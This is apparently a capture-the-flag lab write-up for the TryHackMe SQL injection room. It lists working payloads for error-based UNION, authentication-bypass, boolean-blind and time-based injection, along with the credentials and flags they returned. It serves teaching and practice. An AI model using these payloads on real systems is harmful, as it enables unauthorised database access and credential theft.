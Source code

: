 
```
# Level 1 - Error-Based SQL Injection

>>> https://website.thm/article?id=1'
>>> https://website.thm/article?id=1 UNION SELECT 1,2,3
>>> https://website.thm/article?id=0 UNION SELECT 1,2,database()
> sqli_one
>>> https://website.thm/article?id=0 UNION SELECT 1,2, group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
> article,staff_users
>>> https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name = 'staff_users'
> id,username,password
>>> https://website.thm/article?id=0 union select 1,2,group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users
admin:p4ssword
martin:pa$$word
jim:work123
THM{SQL_INJECTION_3840}

# Level 2 - Authentication bypass

>>> password: ' OR 1=1;--
>>> select * from users where username='' and password='' OR 1=1;
THM{SQL_INJECTION_9581}

# Level 3 - Boolean Based

>>> https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3;--

Finding the name of the database by 'brute forcing' all character one by one (we continue if take=true)
>>> https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
{"taken":true}
>>> https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sqli_three';--

Repeating this process
> admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

>>> https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password='3845';-- [TRUE]
THM{SQL_INJECTION_1093}


# Level 4 - Time Based

If there is no [OK], it means that its good
>>> https://website.thm/analytics?referrer=admin123' union select sleep(5), 2 where database() like 'u%';-- [OK]

THM{SQL_INJECTION_MASTER}
```



